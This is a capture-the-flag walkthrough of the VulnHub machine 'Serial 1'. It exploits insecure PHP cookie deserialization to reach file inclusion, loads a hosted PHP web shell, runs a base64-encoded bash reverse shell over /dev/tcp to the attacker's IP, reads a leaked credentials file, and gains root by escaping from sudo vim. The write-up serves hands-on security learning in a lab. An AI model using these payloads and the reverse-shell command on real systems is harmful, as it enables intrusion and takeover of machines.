

# Serial 1

| Name | Serial: 1 |
| --- | --- |
| Date release | 20 Aug 2019 |
| Author | sk4 |
| Link | https://www.vulnhub.com/entry/serial-1,349/ |


**Goals**  
Get root permissions and user/root flags.

I started off by downloading the machine from Vulnhub and running it with VmWare.

## Recon
The first thing to do is find out what is the IP address of the machine. Since both, my attacking machine and the target machine, are in the same network (NAT) I decided to simply run `sudo netdiscover -r 192.168.150.1/24`:


### Port Scan
Now that we have an IP address, lets do a port scan using Nmap.  



From the Nmap scan we can see only 2 ports open, 22 SSH and 80 HTTP. 
- Port 22: Running OpenSSH 7.9 Ubuntu 10.
- Port 80: HTTP server running Apache 2.4.38.

Lets have a look at the website running on port 80.

### Port 80 - HTTP
Browsing to the website on port 80 and I got a greeting message to the user `sk4` hinting that they are testing the cookies. I immediately opened the browser console to see if there is anything in there.


This looks like base64, lets decode it:


We can see that it is a PHP serialized object in the cookies.  
In fact, there are 2 objects references in there. The first one is a `User` object with `username=sk4` and `Userwel` receives a `Welcome` empty object.

Deserialization can be dangerous leading to RCE if not implemented correctly. However, we don't have much information on how this website works. Lets run a Gobuster to see if we can find some directories and files.

### Gobuster
Running gobuster we find an interesting directory called `/backup`:


Browsing to that directory we see a `bak.zip` file we can download.


Downloading and unzipping we get 3 files of what seems to be the source code of the website.


index.php
```php index.php
<?php
	include("user.class.php");

	if(!isset($_COOKIE['user'])) {
		setcookie("user", base64_encode(serialize(new User('sk4'))));
	} else {
		unserialize(base64_decode($_COOKIE['user']));
	}
	echo "This is a beta test for new cookie handler\n";
?>
```

log.class.php
```php log.class.php
<?php
  class Log {
    private $type_log;

    function __costruct($hnd) {
      $this->$type_log = $hnd;
    }

    public function handler($val) {
      include($this->type_log);
      echo "LOG: " . $val;
    }
  }
?>
```

user.class.php
```php user.class.php
<?php
  include("log.class.php");

  class Welcome {
    public function handler($val) {
      echo "Hello " . $val;
    }
  }

  class User {
    private $name;
    private $wel;

    function __construct($name) {
      $this->name = $name;
      $this->wel = new Welcome();
    }

    function __destruct() {
      //echo "bye\n";
      $this->wel->handler($this->name);
    }
  }

?>
```

### Code Analysis
Analysing the code of the file `index.php` we can see that it is including `user.class.php`. Then checking if a cookie `user` exist and if not creates a new object of `User` with the value of `sk4`.  
So that explains why we were greeted with the name of `sk4` whe we access the website the first time.  
In the line 6, the code logic continues, and if a cookie exists it will be deserialized withou any sanitization. **Dangerous!!**


Looking at the `user.class.php` file I noticed the inclusion of the `log.class.php` which is responsible for the variable `$val` in the `Welcome` class.


Looking at the `log.class.php` code below I noticed the parameter `type_log` is not assigned any value. Also, the `__construct` function will be called when the file loads, in this case, whenever the `user.class.php` is loaded too since it is including this file. The `handler` function is "echoing" the value of `$val`. So maybe we can modify the cookie to reference the `Log` class instead of the `Welcome` and make it read some internal files.


## Exploitation
To exploit this deserialization vulnerability we will need to chain the classes so we create a cookie with the object `Log` and assign the value of the file we would like it to read.

### Modification 1
In the `log.class.php` file we assign a value to the `type_log` variable. Lets try to read `/etc/passwd`:


### Modification 2
In the `user.class.php` we have modify the `__construct` function to assign `new Log()` instead of `new Welcome()` in the `$wel` variable. We will add one line of code at the end to generate a serialized object using the new settings. The serialized object will be our cookie that we will send to the server and it will return a internal file.


We can test running the `index.php` and we get our own `/etc/passwd` file. So this mean it is working.


To generate the cookie we can run `user.class.php` and it will create a serialized PHP object with the modifications we did previously:
```
kali@kali:~/vulnhub/serial1/source$ php user.class.php
root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...[snip]...

LOG: caueTzo0OiJVc2VyIjoyOntzOjEwOiIAVXNlcgBuYW1lIjtzOjQ6ImNhdWUiO3M6OToiAFVzZXIAd2VsIjtPOjM6IkxvZyI6MTp7czoxMzoiAExvZwB0eXBlX2xvZyI7czoxMToiL2V0Yy9wYXNzd2QiO319
```

### Reading Local Files
Adding the generated cookie to the browser and refreshing the page we can see the server `/etc/passwd` file:


Great! So now we reached local file inclusion through PHP object deserialization.

Ok, good, but every time we want to read a file we need to generate a new cookie and refresh the page again. What if we point the `type_log` variable to our machine so it would include our PHP file.

### Remote Code Execution
First we create a simple PHP web shell and call it `rce.php`:
```php rce.php
<?php
system($_REQUEST["cmd"]);
?>
```

Use Python to start web server and host the file:
```
kali@kali:~/vulnhub/serial1/www$ cat rce.php   
<?php
system($_REQUEST["cmd"]);
?>
                                                                                                                                                                                
kali@kali:~/vulnhub/serial1/www$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now all we need to do is to modify the variable `type_log` to point to our hosted file, generate the cookie, add the cookie to the browser and refresh the page.


As soon as I added the new cookie in the browser and refreshed the page I got a hit in the Python webserver to fetch the `rce.php` file.


Now we can run commands using the `cmd` parameter. Browsing to http://192.168.150.133/index.php?cmd=id outputs the user id:


### Reverse Shell
I will base64 encode a bash reverse shell to execute in the target machine:
```
kali@kali:~/vulnhub/serial1/www$ echo "bash -c 'bash -i >& /dev/tcp/192.168.150.130/4444 0>&1'" | base64 -w 0
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE1MC4xMzAvNDQ0NCAwPiYxJwo=
```

Now I can send the following command:
```bash
cmd=echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE1MC4xMzAvNDQ0NCAwPiYxJwo= | base64 -d | bash
```
URL encode the spaces:
```
cmd=echo+YmFzaCAtYyAnYmFzaCAtaSA%2bJiAvZGV2L3RjcC8xOTIuMTY4LjE1MC4xMzAvNDQ0NCAwPiYxJwo%3d+|+base64+-d+|+bash
```

Start a netcat listener, send the command in the browser, and we have a shell:


## Shell as www-data
### Enumeration
Listing directories in the system I found an interesting file that we can read, `/credentials.txt.bak`:
```
www-data@sk4-VM:/$ ls -la
ls -la
total 483896
drwxr-xr-x  20 root root      4096 ago 20  2019 .
drwxr-xr-x  20 root root      4096 ago 20  2019 ..
lrwxrwxrwx   1 root root         7 ago 19  2019 bin -> usr/bin
drwxr-xr-x   3 root root      4096 ago 20  2019 boot
drwxrwxr-x   2 root root      4096 ago 19  2019 cdrom
-rw-r--r--   1 root root        21 ago 20  2019 credentials.txt.bak
drwxr-xr-x  18 root root      4300 mar  8 23:20 dev
drwxr-xr-x 127 root root     12288 ago 20  2019 etc
...[snip]...

www-data@sk4-VM:/$ cat credentials.txt.bak
cat credentials.txt.bak
sk4:KywZmnPWW6tTbW5w
```

From here we could either change user to `sk4` using its password, or SSH in, both works.  

## Shell as sk4
Now that we have credentials for user `sk4`, lets see if he can run any sudo command:

```
www-data@sk4-VM:/$ su sk4
su sk4
Password: KywZmnPWW6tTbW5w
python3 -c 'import pty; pty.spawn("/bin/bash")'
sk4@sk4-VM:/$ id
uid=1000(sk4) gid=1000(sk4) groups=1000(sk4),24(cdrom),30(dip),46(plugdev),118(lpadmin),129(sambashare)
sk4@sk4-VM:/$ sudo -l
Matching Defaults entries for sk4 on sk4-VM:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sk4 may run the following commands on sk4-VM:
    (ALL) NOPASSWD: /usr/bin/vim
```
Yes!

## Privilege Escalation to Root
The user `sk4` can run vim as sudo. There is a very easy way to escape vim into a shell:

```
www-data@sk4-VM:/$ sudo vim -c ':!/bin/sh'
# id
uid=0(root) gid=0(root) groups=0(root)
```
And we are root!
